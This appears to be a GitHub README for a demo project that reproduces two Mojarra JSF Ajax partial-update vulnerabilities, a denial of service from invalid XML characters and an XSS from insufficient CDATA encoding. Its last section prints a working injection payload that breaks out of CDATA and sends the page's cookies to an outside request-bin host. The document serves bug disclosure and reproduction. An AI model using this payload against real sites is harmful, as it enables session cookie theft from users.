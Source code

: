 # mojarra-ajax
Minimal demo to reproduce some issues with mojarra partial update.

To reproduce just run
````bash
mvn package wildfly:run
````
and wait for the server to start up.

## Issue: [Ajax update fails due to invalid characters in response XML (DoS)](https://github.com/eclipse-ee4j/mojarra/issues/4516)

Open the url <http://localhost:8080/ajax/index.xhtml>.

It also works for user supplied inputs, open <http://localhost:8080/ajax/input.xhtml> and enter the [\u000C](https://r12a.github.io/uniview/?charlist=%0C#title) character 
into the input field.

Workaround is available at https://github.com/cnsgithub/mojarra-ajax/blob/master/src/main/java/main/IllegalXmlCharactersFilter.java.

Pull request https://github.com/eclipse-ee4j/mojarra/pull/4517 has been closed unmerged.

## Issue: [Partial rendering: insufficient CDATA encoding (XSS)](https://github.com/eclipse-ee4j/mojarra/issues/4392)

Open the url <http://localhost:8080/ajax/issue4392.xhtml>, enter `]]>` and click at the button to see the XML parser crashing (denial of service).

However, this vulnerability might also be used to inject arbitrary javascript (XSS). Just enter `]]></update><eval><![CDATA[window.open("https://postb.in/Lsmfz95D?cookie="+encodeURIComponent(document.cookie));]]></eval><update><![CDATA[` and see how your cookies have been sent to https://postb.in/b/Lsmfz95D.
